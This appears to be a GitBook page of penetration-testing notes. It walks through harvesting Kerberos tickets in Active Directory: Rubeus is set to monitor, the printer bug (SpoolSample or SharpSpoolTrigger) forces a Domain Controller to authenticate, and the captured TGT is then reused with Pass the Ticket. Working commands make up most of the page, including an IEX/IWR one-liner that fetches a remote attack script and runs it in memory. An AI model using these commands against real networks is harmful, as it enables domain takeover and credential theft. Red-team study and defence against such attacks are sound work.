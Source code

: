 <figure><img src="../../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

#### Set Rubeus for ticket harvesting

{% tabs %}
{% tab title="Rubeus Binary" %}
```bash
Rubeus.exe monitor /Interval:5 /nowrap
Rubeus.exe monitor /Interval:5 /nowrap /targetuser:DC01
```
{% endtab %}

{% tab title="Invoke-Rubeus" %}
```powershell
Invoke-Rubeus -Command "monitor /Interval:5 /nowrap"
Invoke-Rubeus -Command "monitor /Interval:5 /nowrap /targetuser:DC01"
```
{% endtab %}
{% endtabs %}

#### **Perform Forced Authentication**

{% tabs %}
{% tab title="Invoke-SpoolSample" %}
```powershell
# Load into memory
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

# Execute
Invoke-SpoolSample -Command "[Target Sever] [Listening Host]"
```

<figure><img src="../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="SharpSpoolTrigger" %}
**GitHub:** [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers)

```bash
# Execute
SharpSpoolTrigger.exe [Target Sever] [Listening Host]
```
{% endtab %}
{% endtabs %}

#### Collect Tickets

After using one of the above methods to force authentication we soon collect a TGT for the Domain Controller DC01. We can then impersonate this using Pass the Ticket.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
